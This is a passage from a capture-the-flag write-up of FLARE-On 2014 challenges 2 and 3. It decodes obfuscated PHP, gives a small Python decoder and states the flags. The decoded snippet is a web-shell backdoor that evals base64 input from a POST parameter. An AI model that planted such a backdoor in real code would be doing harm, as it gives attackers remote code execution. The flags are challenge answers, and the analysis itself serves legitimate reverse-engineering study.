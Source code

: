{{< /codecaption >}}

So it must decode the first base64 blob and eval it. Let's decode it:

{{< codecaption lang="php" title="Decoded line 4" >}}

if(isset($_POST["\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D"])) 
{ 
eval(base64_decode($_POST["\97\49\x31\68\x4F\x54\116\104\x61\116\x44\79\x54\106\97\118\97\53\x63\114\x61\x70\65\84\102\x6C\x61\114\101\x44\65\x53\72\111\x6E\x44\x4F\84\99\x6F\x6D"])); 
}

{{< /codecaption >}}

This looks like a POST request. The characters look like a mix of ASCII and Hex values. Let's print them using Python and hope this is the last encoding:

{{< codecaption lang="python" title="Decoder code in Python" >}}

mylist= [97,49,49,68,0x4F,84,116,0x68,97,0x74,0x44,0x4F,0x54,0x6A,97,0x76,0x61,0x35,0x63,0x72,97,0x70,0x41,84,0x66,0x6C,97,0x72,0x65,0x44,65,0x53,72,111,110,68,79,84,99,0x6F,0x6D]

print ''.join( chr(item) for item in mylist)

{{< /codecaption >}}

Fortunately, we are done.

#### Level 2 flag: a11DOTthatDOTjava5crapATflareDASHonDOTcom or a11.that.java5crap@flare-on.com

---

## <a name="ch3"></a> Challenge 3 - Cheating My Way to the Top

```
Nice job, you're really knocking these out! Here's the next binary. The password to the zip archive is "malware" again.
Keep up the good work, and good luck!
-FLARE
```

Challenge 3 is a Win32 binary called ``such_evil``. ``PE-Studio`` does not tell us much.

Running it will result in this message:

![BrokenByte](/images/2014/flare/3-1.jpg "BrokenByte")

I cheated in this challenge. I just dropped the executable in ``Immunity Debugger``, ran it and looked in memory when the message box popped up and the email was there:

![Flag in memory](/images/2014/flare/3-2.jpg "Flag in memory")

#### Level 3 flag: such.5h311010101@flare-on.com

---
